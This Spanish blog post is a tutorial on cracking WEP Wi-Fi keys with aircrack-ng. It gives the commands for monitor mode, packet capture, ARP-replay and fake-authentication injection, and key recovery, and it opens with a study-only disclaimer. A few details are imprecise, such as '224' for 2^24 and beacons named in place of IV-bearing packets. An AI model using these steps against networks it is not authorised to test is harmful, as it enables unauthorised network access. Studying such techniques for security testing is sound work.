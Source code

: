 ```yaml
---
layout: post
title: "Wi-Fi Pentesting #1- WEP"
date: 2020-10-20 1:29:00 -0400
categories: [security]
---
```


En esta serie de post se abordan comandos usados en pruebas de penetración de redes Wi-Fi, esta publicación consiste en una recopilación de instrucciones para su estudio, y posibles soluciones a estas vulnerabilidades, no se busca fomentar el uso indebido de estas técnicas.

Algoritmo WEP
---
WEP (Wired Equivalent Privacy) es un algoritmo de seguridad incluido en la norma IEEE 802.11.

Vulnerabilidad:
WEP utiliza RC4, un sistema de cifrado de flujos, y un IV (Initiation Vector) de pequeño tamaño, el cual es reciclado cada 224 ciclos, a continuación un esquema de su funcionamiento.

<p align="center">
  <img src="{{site.baseurl}}/assets/img/posts/wifi-pentesting/wep.svg?raw=true">
</p>


Debido a su funcionamiento la probabilidad de que se reutilicen 4 IVs idénticos cada 5000 paquetes es de 50%, lo cual es una vulnerabilidad explotable.

Esto puede conseguirse usando la herramienta aircrack-ng.
```
apt-get install aircrack-ng
```

Identificar la terjeta de red a utilizar, esto puede hacerse con ifconfig o iwconfig

```
iwconfig
```

el resultado será parecido a lo siguiente:
```
lo        no wireless extensions.

eno1      no wireless extensions.

wlp2s0    IEEE 802.11  ESSID:"PUNTODEACCESO"
          Mode:Managed  Frequency:2.462 GHz  Access Point: E8:DE:27:61:XX:XX
          Bit Rate=240 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=43/70  Signal level=-67 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:6  Invalid misc:7697   Missed beacon:0
```


Debemos colocar la tarjeta de red seleccionada en modo monitor, (no todas las tarjetas admiten este modo, depende de sus caracteristicas físicas).
```
airmon-ng start [interfaz]
```

Identificar la red a "atacar", esto va a escuchar por la tarjeta wlp2s0
```
airodump-ng [interfaz]
```

Una vez que hemos identificado la red, escuchamos especificamente en esa red y capturamos el trafico.
```
airodump-ng -c [canal d ela red] -w [nombre de la captura] --bssid [MAC ADDRESS del AP] [interfaz]
```

Ahora tenemos que esperar que se envien suficientes paquetes Beacon para explotar la vulnerabilidad presente en WEP. En este paso puede acelerarse el proceso de varias formas, haciendo una falsa autenticación o haciendo un arpreplay, en cualquier caso el objetivo es crear mas paquetes para romper la clave en menos tiempo.
Metodo 1 (arpreplay)
```
aireplay-ng --arpreplay -h [DIRECCION MAC DE CLIENTE] -b [MAC DEL AP] [interfaz]
```
Metodo 2 (Fake authentication)
```
aireplay-ng -1 6000 -o 1 -q 10 -e [SSID] -a [BSSID] -h [MAC_ATACANTE] wlan0mon
```
Ejemplo:  
```
aireplay-ng -1 6000 -o 1 -q 10 -e PUNTODEACCESO -a 00:27:19:EE:C5:64 -h 00:1C:DF:C6:D4:FA wlan0mon
```

Donde
    6000 - Reauthenticate very 6000 seconds. The long period also causes keep alive packets to be sent.
    -o 1 - Send only one set of packets at a time. Default is multiple and this confuses some APs.
    -q 10 - Send keep alive packets every 10 seconds.


Una vez que tengamos un numero suficientemente alto de paquetes Beacon (al menos superior a 5000) probamos a romper la clave.
```
 # aircrack-ng -b [MAC DEL AP] [Nombre de la captura].cap
```

ESSID: Significa Extended Service Set ID y es el nombre identificable de la red  
BSSID: Significa Basic Service Set Identifier y se trata de la dirección MAC (física) del Access Point al que nos conectamos  
Beacon frame: is one of the management frames in IEEE 802.11 based WLANs. It contains all the information about the network. Beacon frames are transmitted periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set. Beacon frames are transmitted by the access point (AP) in an infrastructure basic service set (BSS)  

